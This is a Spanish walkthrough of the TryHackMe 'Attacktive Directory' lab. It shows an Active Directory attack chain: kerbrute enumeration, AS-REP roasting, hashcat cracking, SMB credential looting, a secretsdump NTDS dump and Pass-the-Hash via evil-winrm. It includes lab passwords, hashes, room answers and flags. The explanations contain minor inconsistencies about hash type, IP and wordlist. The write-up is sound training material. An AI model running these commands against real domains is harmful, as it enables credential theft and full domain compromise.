

# Attacktive Directory



Maquinas que voy a utilizar Kali Linux y https://tryhackme.com/room/attacktivedirectory

Mi IP: `10.21.203.172`


IP maquina victima: `10.10.130.17`


---

**NOTA: En esta Room hay que instalar herramientas y descargar diccionarios. las instrucciones se encuentran en la explicaciones de la Room.**

## Enumeración

- Vamos a Enumerar
    
    ```bash
    nmap -sC -sV -Pn -T4 10.10.130.17 -oN nmap-inicial.txt
    ```
    
    
    

- Responda las siguientes preguntas
    
    ¿Qué herramienta nos permitirá enumerar el puerto 139/445?
    
    `enum4linux`
    
    ¿Cuál es el nombre de dominio NetBIOS de la máquina?
    
    `THM-AD`
    
    ¿Qué TLD no válido usa la gente comúnmente para su dominio de Active Directory?
    
    .local
    
- Descargamos los dos archivo que nos dan en la Room userlist.txt y passwordlist.txt
- Usamos kerbrute para obtener nombre de usuario validos
    
    ```bash
    kerbrute userenum --dc 10.10.130.17 -d spookysec.local userlist.txt
    ```
    
    
    
    El usuario svc-admin no requiere pre‑autenticación
    
    - **Responda las siguientes preguntas**
        
        ¿Qué comando dentro de Kerbrute nos permitirá enumerar nombres de usuario válidos?
        
        `userenum`
        
        ¿Qué relato notable se descubre? (Estos deberían saltar a la vista)
        
        `svc-admin`
        
        ¿Cuál es la otra cuenta notable que se descubre? (Estos deberían saltar a la vista)
        
        `backup`
        

- También podríamos  realizar un ataque AS-REP Roasting usando **impacket-GetNPUsers** para intentará obtener tickets TGT de los usuarios que no requieren pre-autenticación Kerberos, para después crackearlos con herramientas como Hashcat.
    
    ```bash
    impacket-GetNPUsers spookysec.local/ -dc-ip 10.10.130.17 -usersfile userlist.txt -format hashcat -outputfile asreproast.hashes
    ```
    
    
    
    
    
    ### Explicación de los parámetros:
    
    - **`spookysec.local/`** → El dominio a atacar.
    - **`dc-ip 10.10.36.120`** → IP del Domain Controller.
    - **`usersfile userlist.txt`** → Diccionario con los usuarios a probar (uno por línea).
    - **`format hashcat`** → Exporta los hashes en formato compatible con Hashcat.
    - **`outputfile asreproast.hashes`** → Archivo donde se guardarán los hashes encontrados.

---

## Explotación

- Copiamos y guardamos el hash de **svc-admin** en un archivo
    
    ```bash
    nano hash.txt
    ```
    
    ```
    $krb5asrep$18$svc-admin@SPOOKYSEC.LOCAL:eef04880497f4f7582f177d8277db504$d632088f573cb2c0e808f5f476e4d156181005a2c0df1d26ac57d148859212175c7fab34911698d8cdb418caff7adbc48bc48cfc0cd63b8b16e5c5f3388e32f8b5279bac5010ca518a4e231b9a5f807eb7eebf67f06dac9457e1d52152e51d03f5e08429a8f20d8a3f4d35d55f5d59e813d754a2e0e60c536c97b3db545d12fc480474a756a969487c4654e1d63586b75179c88a34508d01397787c22742388830e812f394607e3df9c1d9802324221ef36b5120e93cdf6a5b047455d2266c8ca09c77c5d98f93eee46c9ffd51c10d88d8c424c40e02cab58cdc7d0e44f0e30da638b710840ba31ffa8c73143eaa68ea75a137f5e64a5bfab9f749a27ccf35ff1cdf625d7860
    ```
    
    
    

- Vamos a crackear el hash
    
    ```bash
    hashcat -m 18200 hash.txt passwordlist.txt
    ```
    
    - **`m 18200`** indica el modo de hash específico para **Kerberos 5, AS-REP etype 23**, que es un tipo de cifrado usado en este ataque de Kerberos.
    - **`hash.txt`** es el archivo que contiene los hashes obtenidos (por ejemplo, con impacket GetNPUsers).
    - **`/usr/share/wordlists/rockyou.txt`** es el diccionario de contraseñas que Hashcat usará para intentar descifrar los hashes.
    
    
    
    Password: `management2005`
    
    - **Responda las siguientes preguntas**
        
        Tenemos dos cuentas de usuario desde las que podríamos consultar un ticket. ¿Desde qué cuenta de usuario se puede consultar un ticket sin contraseña?
        
        `svc-admin`
        
        Mirando la página Wiki de ejemplos de Hashcat, ¿qué tipo de hash Kerberos recuperamos del KDC? (Especifique el nombre completo) . Podemos mirarlo aquí: [**https://hashcat.net/wiki/doku.php?id=example_hashes**](./imagenes/AttacktiveDirectory/https://hashcat.net/wiki/doku.php?id=example_hashes)
        
        `Kerberos 5 AS-REP etype 23`
        
        ¿Qué modo es el hash?
        
        `18200`
        
        Ahora descifre el hash con la lista de contraseñas modificadas proporcionada, ¿cuál es la contraseña de las cuentas de usuario?
        
        `management2005`
        

---

## **Enumeración**

- Vamos a intentar  enumerar los recursos compartidos (shares) que el controlador de dominio puede estar proporcionando.
    
    Tenemos credenciales válidas del dominio:
    
    ```
    Usuario: svc-admin
    Password: management2005
    Dominio: spookysec.local
    IP: 10.10.130.17
    ```
    
    ```bash
    smbclient -L [//10.10.130.17](./imagenes/AttacktiveDirectory/https://10.10.130.17/) -U 'spookysec.local/svc-admin%management2005'
    ```
    
    - `L` → lista de recursos compartidos.
    - `U` → usuario + contraseña.
        - Formato: `DOMINIO/usuario%password`.
        
    
    
    
    ```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
    
    ```
    
    - `ADMIN$` → remoto admin (no nos interesa ahora).
    - `backup` → 💡 **muy interesante** → suele contener ficheros con credenciales o configuraciones sensibles.
    - `C$` → share administrativo (acceso restringido normalmente).
    - `IPC$` → para comunicación.
    - `NETLOGON` → scripts de login.
    - `SYSVOL` → políticas de dominio.

- Explotamos el recurso compartido Backup
    
    ```bash
    smbclient [//10.10.130.17/backup](./imagenes/AttacktiveDirectory/https://10.10.130.17/backup) -U 'spookysec.local/svc-admin%management2005'
    ```
    
    
    
    Una vez dentro podemos usar siguientes comandos:
    
    - `ls` → listar ficheros
    - `cd folder` → cambiar directorio
    - `get file.txt` → descargar fichero

- Miramos dentro
    
    `ls`
    
    `get backup_credentials.txt`
    
    
    

- Miramos el contenido del archivo que hemos descargado `backup_credentials.txt`
    
    ```bash
    cat backup_credentials.txt
    ```
    
    
    
    Contenido:`YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`
    
    Esta codificado en base64
    

- Vamos a decodificarlo
    
    ```bash
    echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
    ```
    
    
    
    `backup@spookysec.local:backup2517860`
    
    - **Usuario:** `backup@spookysec.local`
    - **Contraseña:** `backup2517860`

- **Responda las siguientes preguntas**
    
    ¿Qué utilidad podemos usar para asignar recursos compartidos SMB remotos?
    
    `smbclient`
    
    ¿Qué opción incluirá acciones?
    
    `-L`
    
    ¿Cuántos recursos compartidos remotos está listando el servidor?
    
    `6`
    
    Hay un recurso compartido en particular al que tenemos acceso que contiene un archivo de texto. ¿Qué acción es?
    
    `backup`
    
    ¿Cuál es el contenido del archivo?
    
    `YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`
    
    Decodificando el contenido del archivo, ¿Cuál es el contenido completo?
    
    `backup@spookysec.local:backup2517860`
    

---

## **Escalada de privilegios de dominio**

- Usamos **secretsdump.py** de la suite Impacket  para extraer secretos (como hashes de contraseñas, claves Kerberos, credenciales, etc.).
    
    ```bash
    impacket-secretsdump spookysec.local/backup:'backup2517860'@10.10.130.17
    ```
    
    
    
    Este nos interesa: `Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::`
    
    Concretamente esta parte: `0e0363213e37b94221497260b0bcb4fc`
    

- Intentamos iniciar una sesión remota interactiva PowerShell en la máquina Windows objetivo
    
    ```bash
    evil-winrm -i 10.10.130.17 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
    ```
    
    
    
    - **`i 10.10.130.17`**: se conecta a la IP 10.10.130.17, el equipo Windows remoto.
    - **`u Administrator`**: usa el usuario "Administrator" para la autenticación.
    - **`H 0e0363213e37b94221497260b0bcb4fc`**: en lugar de contraseña, utiliza un **hash NTLM** asociado al usuario para autenticarse (técnica llamada Pass-the-Hash).
        
        
        - **Responda las siguientes preguntas:**
            
            ¿Qué método nos permitió deshacernos de NTDS? ¿DIT?
            
            `DRSUAPI`
            
            **Método DRSUAPI (replicación de Active Directory) nos permitió obtener el NTDS.dit.**
            
            ¿Qué es el hash NTLM de administradores?
            
            `0e0363213e37b94221497260b0bcb4fc`
            
            ¿Qué método de ataque podría permitirnos autenticarnos como usuario sin la contraseña?
            
            `Pass The Hash`
            **Con este ataque podemos usar directamente el NTLM hash (NT hash) de un usuario para autenticarnos en servicios que acepten NTLM, sin necesidad de crackear la contraseña.**
            
            Usando una herramienta llamada Evil-WinRM, ¿qué opción nos permitirá usar un hash?
            
            `-H`
            
    
    ## Envío de banderas
    
    - Responda las siguientes preguntas:
        
        svc-admin
        
        En **C:\Users\svc-admin\Desktop**
        `TryHackMe{K3rb3r0s_Pr3_4uth}`
        
        
        
        copia de seguridad
        
        En C:\Users\backup\Desktop
        
        `TryHackMe{B4ckM3UpSc0tty!}`
        
        
        
        Administrador
        
        En C:\Users\Administrator\Desktop
        
        `TryHackMe{4ctiveD1rectoryM4st3r}`
        
        
        

---

### 📌 Resumen rápido de lo que hicimos:

1. **Escaneo inicial** con `nmap` → descubrimos servicios típicos de un **DC (Domain Controller)**.
2. **Enumeración de usuarios** con `kerbrute`.
3. **AS-REP Roasting** con `GetNPUsers.py` → conseguimos el hash de `svc-admin`.
4. **Crackeo de hash** con `hashcat` → contraseña de `svc-admin`.
5. **Enumeración SMB** con `smbclient` → encontramos credenciales en `backup`.
6. **Uso de la cuenta backup** con `secretsdump.py` → dumpeamos **NTDS.dit** y sacamos todos los hashes.
7. **Escalada total** → ya tenemos hash de **Administrator** → **Domain Admin** = dominio controlado.
8. (Opcional) Podríamos hacer un **Pass-the-Hash** para autenticarnos como Admin sin necesidad de crackear.

---

### 🎯 Lecciones clave :

- Cómo funciona **Kerberos** y el ataque **AS-REP Roasting**.
- El poder de las cuentas de **servicios mal configuradas**.
- Cómo usar herramientas de **Impacket** para moverte en AD.
- Técnicas de escalada como **Pass-the-Hash** y extracción con `secretsdump`.